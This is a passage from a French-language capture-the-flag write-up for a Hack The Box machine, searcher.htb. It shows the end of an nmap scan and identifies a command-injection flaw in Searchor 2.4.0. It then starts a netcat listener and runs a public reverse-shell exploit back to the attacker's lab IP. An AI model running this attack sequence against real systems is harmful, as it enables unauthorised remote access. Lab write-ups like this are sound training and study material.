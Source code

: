 ```
|_http-title: Did not follow redirect to http://searcher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:54
Completed NSE at 12:54, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:54
Completed NSE at 12:54, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:54
Completed NSE at 12:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds
```

Après modification du `/etc/hosts` j'accède au site.

```
echo "10.129.140.129 searcher.htb" | sudo tee -a /etc/hosts
```



## Vulnérabilité du site

Le site utilise l'application "Searchor 2.4.0" selon une information affichée en bas de page. Une vulnérabilité et un exploit existent pour cette application. La vulnérabilité est due à une absence de vérification des entrées utilisateurs, qui permet une injection de commande.

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

## Exploitation

Un netcat écoute les connexions entrantes sur ma machine attaquant.

```
$ nc -nlvp 9001
```

Et je lance l'[exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection).

```
$ ./exploit.sh searcher.htb 10.10.14.72 9001
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is searcher.htb
[*] Input attacker is 10.10.14.72:9001
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```

